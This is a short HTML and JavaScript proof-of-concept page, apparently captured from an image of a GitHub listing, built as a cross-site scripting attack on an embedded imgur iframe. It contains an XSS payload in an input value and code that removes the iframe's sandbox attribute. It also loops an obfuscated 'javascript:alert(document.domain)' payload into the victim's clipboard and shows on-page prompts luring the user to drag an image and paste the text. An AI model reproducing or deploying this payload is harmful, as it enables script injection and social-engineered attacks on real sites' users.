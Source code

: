 ```

    <input type="text" name="" value="https://images.pexels.com/photos/1108099/pexels-photo-1108099.jpeg?<<iframe/src=javascript:self.innerHTML=parent.name>img/src=x>">
    <img src=boa.jpeg>
    <script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>
    <script type="text/javascript">
    var i = 0;
    var j = 0;
    var ifr = '';
    var x = 0;
    setTimeout(function(){
      ifr = document.querySelector('iframe');
      ifr.style="";
      ifr.removeAttribute("sandbox");
      console.log(ifr);
    },4000)

    setInterval(function(){
      navigator.clipboard.writeText("<<!<script>iframe src=javajavascriptscript:alert(document.domain)>").then(function(text){console.log(text)})
    },1000)
    setInterval(function(){
      if(i==2){
        console.log("stop counter...");
      }
      if(x!=1){
        if(ifr.contentWindow.frames.length==1){
          console.log("page change!");
          btn1.innerHTML="drag the image to here!";
          x=1;
        }
      }

    },1000)

      onmessage=function(event){
        console.log(event);
        i++;
      }

      onpaste=function(){
        console.log("ONPASTE!");
      }

      ondragend=function(){

        btn1.innerHTML="";
        setTimeout(function(){
          btn1.innerHTML="";

          btn2.innerHTML="copy the red text and paste here after that, press enter!";
        },1100)
      }

    </script>
  </body>
</html>
```
